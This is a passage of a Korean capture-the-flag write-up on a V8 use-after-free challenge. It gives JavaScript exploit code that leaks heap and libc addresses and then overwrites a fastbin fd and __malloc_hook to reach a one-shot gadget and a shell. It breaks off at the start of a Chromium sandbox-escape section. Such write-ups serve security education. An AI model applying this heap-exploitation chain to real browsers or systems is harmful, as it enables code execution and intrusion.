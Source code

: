 ```jsx
let libc = new Uint32Array(new Array(tmp1[2], tmp1[3]));
console.log("heap : " + hex(u2d(heap[0], heap[1])));
console.log("libc : " + hex(u2d(libc[0], libc[1])));
```

array buffer의 backing store가 free될때는 ptmalloc의 free를 사용하기 때문에 heap과 libc주소가 chunk에 남습니다. 따라서 그것을 t1의 backgin store로 가져오게 되면 heap, libc 주소를 릭할 수 있습니다.

```jsx
/* STAGE 2 */
var abs = [];
for (var i = 0; i < 7; i++) {
    abs.push( new ArrayBuffer(0x60));
}
var ab2 = new ArrayBuffer(0x60);
var t3 = new Uint8Array(ab2);
var t4 = new Uint8Array(0x8);

var tmp2 = new Uint8Array(libc.buffer);
for (var i = 0; i < 0x10; i++) {
    t4[i] = tmp2[i];
}

value = libc[0] - 0x70 - 0x23;
t4[0x0] = value%0x100;
t4[0x1] = value/0x100;

t3.set(t4, { valueOf:
    function() {
        Date.now();
        for (var i = 0; i < 7; i++) {
            %ArrayBufferDetach(abs[i]);
        }
        %ArrayBufferDetach(ab2);
        return 0;
    }
});
```

UAF 취약점이 존재하는 array buffer의 backing store는 calloc으로 할당되기 때문에 tcache를 사용하지 않기 때문에 tcache를 이용한 exploit은 불가능합니다. 그래서 tcache를 전부 채워서 fastbin을 사용하게 한 뒤, fastbin의 fd를 덮어서  `__malloc_hook` 을 덮으면 rip를 조작할 수 있습니다. 

```jsx
JSON.stringify(ab);
```

여기서 문제가 되는것은 malloc 호출뒤에 원샷조건이 맞지 않는다는 것인데,  여러가지 javascript 함수를 호출하던 도중 JSON.stringify 함수를 호출했을때 원샷 조건이 맞다는 사실을 깨달았습니다. 그래서 이것을 이용해 쉘을 획득할 수 있었습니다.

# 4. SBX : Vulnerability / Exploit

```diff
diff --git a/third_party/blink/public/mojom/tstorage/tstorage.mojom b/third_party/blink/public/mojom/tstorage/tstorage.mojom
new file mode 100644
index 000000000000..c6c8c91905c8
--- /dev/null
+++ b/third_party/blink/public/mojom/tstorage/tstorage.mojom
@@ -0,0 +1,20 @@
+module blink.mojom;
+
+interface TStorage {
+    Init() => ();
+    CreateInstance() => (pending_remote<blink.mojom.TInstance> instance);
```